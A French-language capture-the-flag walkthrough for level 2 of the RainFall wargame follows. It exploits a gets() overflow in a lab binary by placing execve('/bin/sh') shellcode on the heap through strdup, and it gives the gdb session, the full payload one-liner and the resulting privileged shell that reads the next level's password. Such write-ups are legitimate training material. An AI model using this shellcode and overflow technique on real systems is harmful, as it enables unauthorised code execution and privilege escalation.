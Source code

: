 # **Level 2**

Pour le `level2` c'est la meme idee sauf qu'il n'y a rien dans le code pour lancer un shell, donc on va devoir le lancer par nous meme

```
void p(void)

{
  uint unaff_retaddr;
  char local_50 [76];
  
  fflush(stdout);
  gets(local_50);
  if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n",unaff_retaddr);
                    // WARNING: Subroutine does not return
    _exit(1);
  }
  puts(local_50);
  strdup(local_50);
  return;
}



void main(void)

{
  p();
  return;
}
```

Le but de cet exercice est d'utiliser la heap (pas la stack car elle n'est pas executable ici) pour executer du code que nous allons lui passer en input

Pour ca on utilise comme point d'entree `gets` pour ecrire notre payload et `strdup` pour l'executer

Comme le buffer est assez grand, on peux ecrire notre `shellcode` dedans, donc on cherche un shellcode pour executer execve("/bin/sh")
[ShellStorm](https://shell-storm.org/shellcode/index.html)

On comble le debut de notre payload par des `nop (\x90)` instruction qui permet de passer a la suivante

Et on fini par overwrite `eip` pour faire pointer l'instruction suivant sur le pointeur que r'envoie `strdup`

> On aura quelque chose de la forme `\x90 * (len(to eip) - len(shellcode)) + shellcode + address de debut`

Pour trouver l'addresse de strdup on utilise gdb

```
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   %ebp
   0x080484d5 <+1>:	mov    %esp,%ebp
   0x080484d7 <+3>:	sub    $0x68,%esp
   0x080484da <+6>:	mov    0x8049860,%eax
   0x080484df <+11>:	mov    %eax,(%esp)
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:	mov    %eax,(%esp)
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    $0x8048620,%eax
   0x0804850c <+56>:	mov    -0xc(%ebp),%edx
   0x0804850f <+59>:	mov    %edx,0x4(%esp)
   0x08048513 <+63>:	mov    %eax,(%esp)
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	movl   $0x1,(%esp)
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:	mov    %eax,(%esp)
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:	mov    %eax,(%esp)
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave  
   0x0804853e <+106>:	ret    
End of assembler dump.
(gdb) b *0x0804853e
Breakpoint 1 at 0x804853e
(gdb) run
Starting program: /home/user/level2/level2 
aaaa
aaaa

Breakpoint 1, 0x0804853e in p ()
(gdb) r i
The program being debugged has been started already.
Start it from the beginning? (y or n) n
Program not restarted.
(gdb) i r
eax            0x804a008	134520840
ecx            0x0	0
edx            0xbffff6cc	-1073744180
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff71c	0xbffff71c
ebp            0xbffff728	0xbffff728
esi            0x0	0
edi            0x0	0
eip            0x804853e	0x804853e <p+106>
eflags         0x200286	[ PF SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) x/s 0x804a008
0x804a008:	 "aaaa"
```
On peux donc construire notre payload

```
level2@RainFall:/var/crash$ python -c "print '\x90'*35 + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' + '\x08\xa0\x04\x08'" > /var/crash/lvl2
```

Et on l'execute

```
level2@RainFall:~$ cat /var/crash/lvl2 -| ./level2 
������������������������������������^�1��F�F
                                            �
                                             ���V
                                                 1�����/bin/s�
id
uid=2021(level2) gid=2021(level2) euid=2022(level3) egid=100(users) groups=2022(level3),100(users),2021(level2)
cd /home/user/level3/.pass
/bin/sh: 3: cd: can't cd to /home/user/level3/.pass
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02

```

> ### NEXT : [Level 3](/level3/resources/README.md)

